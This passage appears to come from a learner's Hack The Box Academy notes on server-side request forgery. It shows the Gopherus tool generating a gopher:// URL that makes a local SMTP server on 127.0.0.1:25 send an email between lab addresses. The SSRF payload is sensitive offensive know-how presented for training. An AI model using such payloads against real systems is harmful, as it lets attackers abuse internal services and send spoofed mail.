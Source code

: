 Let us generate a valid SMTP URL by supplying the corresponding argument. The tool asks us to input details about the email we intend to send. Afterward, we are given a valid gopher URL that we can use in our SSRF exploitation:

```shell-session
smoothment@htb[/htb]$ python2.7 gopherus.py --exploit smtp

 ________ .__
 / _____/ ____ ______ | |__ ___________ __ __ ______
/ \ ___ / _ \\____ \| | \_/ __ \_ __ \ | \/ ___/
\ \_\ ( <_> ) |_> > Y \ ___/| | \/ | /\___ \
 \______ /\____/| __/|___| /\___ >__| |____//____ >
 \/ |__| \/ \/ \/

 author: $_SpyD3r_$


Give Details to send mail: 

Mail from : attacker@academy.htb
Mail To : victim@academy.htb
Subject : HelloWorld
Message : Hello from SSRF!

Your gopher link is ready to send Mail: 

gopher://127.0.0.1:25/_MAIL%20FROM:attacker%40academy.htb%0ARCPT%20To:victim%40academy.htb%0ADATA%0AFrom:attacker%40academy.htb%0ASubject:HelloWorld%0AMessage:Hello%20from%20SSRF%21%0A.

-----------Made-by-SpyD3r-----------
```


# Question
---

![Pasted image 20250212121005.png](../../../../IMAGES/Pasted%20image%2020250212121005.png)

If we go to the website, we can see the following:

![Pasted image 20250212121513.png](../../../../IMAGES/Pasted%20image%2020250212121513.png)
